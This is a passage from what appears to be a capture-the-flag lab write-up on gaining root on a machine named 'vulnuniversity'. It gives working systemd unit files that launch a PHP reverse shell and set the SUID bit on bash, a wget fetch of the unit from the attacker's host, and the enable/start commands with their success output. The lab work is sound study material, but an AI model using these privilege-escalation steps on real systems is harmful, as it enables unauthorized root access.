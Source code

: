The next escalation attempt was by using the same `PHP` remote shell that was used before.
The difference being launching it with `PHP` on the command line, rather than in the web browser.

The value in the `PHP` file was changed to `$port = 8081`

This used the same file transfer and `systemctl` launch steps as above.

```dot
[Unit]
Description=reverse php shell

[Service]
Type=one-shot
ExecStart=/usr/bin/php /tmp/reverse-root.php

[Install]
WantedBy=default.target
```

This did not appear to work, nothing attached to the listening service.


#### Bash SUID {#bash-suid}

Next step is to change the `bash` executable to be SUID to gain a root `bash` shell.

```dot
[Unit]
Description=bash suid

[Service]
Type=one-shot
ExecStart=/bin/sh -c "/bin/chmod +s /bin/bash"
#Restart=on-failure

[Install]
WantedBy=default.target
```

Downloaded the new systemctl service file

```bash
cd /tmp
wget $localip:8000/bash-suid.service
```

Active the new systemctl file

```bash
systemctl enable /tmp/bash-suid.service
systemctl start bash-suid.service
systemctl daemon-reload
```

Looks promising lets check the status

```text
$ systemctl status bash-suid.service
* bash-suid.service - bash suid
   Loaded: loaded (/tmp/bash-suid.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Sat 2022-01-15 04:21:33 EST; 11s ago
  Process: 1714 ExecStart=/bin/sh -c /bin/chmod +s /bin/bash (code=exited, status=0/SUCCESS)
 Main PID: 1714 (code=exited, status=0/SUCCESS)

Jan 15 04:21:33 vulnuniversity systemd[1]: Started bash suid.
```
